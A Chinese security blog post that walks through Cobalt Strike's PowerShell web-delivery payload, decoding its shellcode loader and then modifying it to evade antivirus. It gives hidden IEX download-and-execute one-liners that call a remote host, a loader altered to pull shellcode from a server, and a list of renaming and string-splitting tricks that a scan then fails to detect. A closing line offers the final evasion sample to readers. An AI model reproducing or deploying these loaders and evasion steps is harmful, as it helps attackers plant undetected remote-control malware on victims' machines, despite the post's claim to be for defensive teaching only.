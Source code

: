 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/2toasPU-tFPDxsKfFbws4w)

![](https://mmbiz.qpic.cn/mmbiz_jpg/zbTIZGJWWSNrPAYfgu9AuiaLbLHBQr11GfKibgI50Gda4Fev6F6pN0xZARHT0ibjOV00HFQoWX2m8b14hYiaCh2rvA/640?wx_fmt=jpeg)  

一位苦于信息安全的萌新小白帽

本实验仅用于信息防御教学，切勿用于它用途

公众号：XG 小刚

分析 PowerShell 命令  

Powershell 无文件上线，使用 CS 的 scripted web delivery 生成 powershell 脚本，挂在服务器上  

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSNrPAYfgu9AuiaLbLHBQr11G1e9d3gKJnwHia1cjib5GMEjtwY9LG2w1bJxQV4ono8PfkpcrqibZXYG6A/640?wx_fmt=png)

CS 会生成一句 powershell 命令，并将 ps 脚本挂在 CS 服务器上  

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.1.1:80/a'))"
```

看看访问的 http://192.168.1.1:80/a 文件有什么

发现是一大串 PS 命令，它先使用 base64 解码，之后通过 IO.MemoryStream.GzipStream 解压缩，得到解码后的 PS 脚本，并 IEX 执行该脚本

```
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("vbxH516NOyTVgUA......."));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSNrPAYfgu9AuiaLbLHBQr11GficmNRXjpzbPv43icHe5ibJUrrzaXkiaLQwMBE7AZg2iaIXcot0JwianXpiag/640?wx_fmt=png)

输出一下解码后的脚本，修改 IEX 为 echo，就可输出源代码了  

```
powershell -ExecutionPolicy bypass -File power.ps1 >> source.ps1
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSNrPAYfgu9AuiaLbLHBQr11GIK8JljD5XyYGkeAdvtEGhTSYAS5XPsbE3fQ43Nx2XPjTDu3xMRTJXA/640?wx_fmt=png)

分析 PowerShell 加载器

仔细观察源代码啊，发现这就是 CS 直接生成的 powershell 的 payload 啊。  

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSNrPAYfgu9AuiaLbLHBQr11GFAJribRL8tP6ofrDib3mNPYJUqDf3XKqOicshMdwY5ibzicN8MOorbVnpqQ/640?wx_fmt=png)

有两个函数 fungetprocaddress 和 functiongetdelegatetype，然后一个 base64 解码，并进行 xor 异或处理得到 shellcode，分配内存，复制 shellcode 到内存，最后执行 shellcode

就是一个典型的 powershell 版本 shellcode 加载器

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSNrPAYfgu9AuiaLbLHBQr11G2qhJDicXuu156Du2t2WUHTshBrX8MiaZegHRFibv68vFZpY8ma7oJCrIw/640?wx_fmt=png)

这里的 base64 编码的一大串内容，盲猜就是 shellcode 异或处理又 base64 编码来的  

既然这样就输出一下解码后得到的 16 进制机器码

```
echo $var_code >> shellcode.bin
```

暂时看不太懂机器码。。。  

既然是内存加载器，就改一下加载器

不将 shellcode 写死在 ps 脚本中，而是将 shellcode 放在服务器上，远程加载实现分离免杀

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSNrPAYfgu9AuiaLbLHBQr11Gz525c7ibtvk0symjqvicaF8kE2QW2xLicCQn4EW3pj1IosFXXTcaGU5eg/640?wx_fmt=png)

```
[Byte[]]$var_code = (New-Object Net.WebClient).downloaddata('http://192.168.1.1/payload.bin')
```

这里的 bin 文件用 CS 或 msf 生成的都可以，其他代码不改，先尝试一下能上线不。

   **测试免杀**

能上线后就修改一下 ps 脚本的其他特征。  

```
func_get_delegate_type函数重命名为function func_ttt
func_get_proc_address函数重命名为func_hhh
downloaddata函数改为"down`lo`addata"
downloadstring函数改为"download`str`ing"
'Invoke'字符串改为为'Inv'+'oke'
$var_code变量为$var_dode
'http://192.168.1.1/payload.bin'改为'ht'+'tp://192.16'+'8.1.1/pay'+'load.bin'
```

反正能改的都改改，测试一下最终 ps 脚本，能上线，然后查杀一下该脚本  

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSNrPAYfgu9AuiaLbLHBQr11GXuK4KiczN8BFAKVLhxdgJIYg0s0ib1Vy4B24blyWBX6iaK7NVAG5OepfQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSNrPAYfgu9AuiaLbLHBQr11GCicU1oPkQzO2mLibBI2sRSLZQ5Vr6UGBibrhUEVKzRyq1n4NxPZxEheuw/640?wx_fmt=png)

主机上线

使用的话将脚本上传目标主机，或者放在服务器上加载即可  

```
powershell -nop -w hidden -c "IEX(new-object net.webclient).downloadstring('C:\test.ps1')"
```

```
powershell -nop -w hidden -c "IEX(new-object net.webclient).downloadstring('http://192.168.1.1/test.ps1')"
```

最终样本可在公众号回复：ps 免杀样本  

**【往期推荐】**  

[【内网渗透】内网信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485796&idx=1&sn=8e78cb0c7779307b1ae4bd1aac47c1f1&chksm=ea37f63edd407f2838e730cd958be213f995b7020ce1c5f96109216d52fa4c86780f3f34c194&scene=21#wechat_redirect)  

[【内网渗透】域内信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485855&idx=1&sn=3730e1a1e851b299537db7f49050d483&chksm=ea37f6c5dd407fd353d848cbc5da09beee11bc41fb3482cc01d22cbc0bec7032a5e493a6bed7&scene=21#wechat_redirect)

[【超详细 | Python】CS 免杀 - Shellcode Loader 原理 (python)](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486582&idx=1&sn=572fbe4a921366c009365c4a37f52836&chksm=ea37f32cdd407a3aea2d4c100fdc0a9941b78b3c5d6f46ba6f71e946f2c82b5118bf1829d2dc&scene=21#wechat_redirect)

[【超详细 | Python】CS 免杀 - 分离 + 混淆免杀思路](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486638&idx=1&sn=99ce07c365acec41b6c8da07692ffca9&chksm=ea37f3f4dd407ae28611d23b31c39ff1c8bc79762bfe2535f12d1b9d7a6991777b178a89b308&scene=21#wechat_redirect)  

[【超详细】CVE-2020-14882 | Weblogic 未授权命令执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485550&idx=1&sn=921b100fd0a7cc183e92a5d3dd07185e&chksm=ea37f734dd407e22cfee57538d53a2d3f2ebb00014c8027d0b7b80591bcf30bc5647bfaf42f8&scene=21#wechat_redirect)

[【超详细 | 附 PoC】CVE-2021-2109 | Weblogic Server 远程代码执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486517&idx=1&sn=34d494bd453a9472d2b2ebf42dc7e21b&chksm=ea37f36fdd407a7977b19d7fdd74acd44862517aac91dd51a28b8debe492d54f53b6bee07aa8&scene=21#wechat_redirect)  

[【奇淫巧技】如何成为一个合格的 “FOFA” 工程师](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485135&idx=1&sn=f872054b31429e244a6e56385698404a&chksm=ea37f995dd40708367700fc53cca4ce8cb490bc1fe23dd1f167d86c0d2014a0c03005af99b89&scene=21#wechat_redirect)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[记一次 HW 实战笔记 | 艰难的提权爬坑](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=2&sn=5368b636aed77ce455a1e095c63651e4&chksm=ea37f965dd407073edbf27256c022645fe2c0bf8b57b38a6000e5aeb75733e10815a4028eb03&scene=21#wechat_redirect)

[【超详细】Microsoft Exchange 远程代码执行漏洞复现【CVE-2020-17144】](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485992&idx=1&sn=18741504243d11833aae7791f1acda25&chksm=ea37f572dd407c64894777bdf77e07bdfbb3ada0639ff3a19e9717e70f96b300ab437a8ed254&scene=21#wechat_redirect)

[【超详细】Fastjson1.2.24 反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=1&sn=1178e571dcb60adb67f00e3837da69a3&chksm=ea37f965dd4070732b9bbfa2fe51a5fe9030e116983a84cd10657aec7a310b01090512439079&scene=21#wechat_redirect)

_**走过路过的大佬们留个关注再走呗**_![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEATexewVNVf8bbPg7wC3a3KR1oG1rokLzsfV9vUiaQK2nGDIbALKibe5yauhc4oxnzPXRp9cFsAg4Q/640?wx_fmt=png)

**往期文章有彩蛋哦****![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vY8yuszc8WLjN9RmkgOG0Jp7QAfTxBMWU8Xe4Rlu2M7WjY0xea012OQ/640?wx_fmt=png)  
**

公众号

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTECbvcv6VpkwD7BV8iaiaWcXbahhsa7k8bo1PKkLXXGlsyC6CbAmE3hhSBW5dG65xYuMmR7PQWoLSFA/640?wx_fmt=png)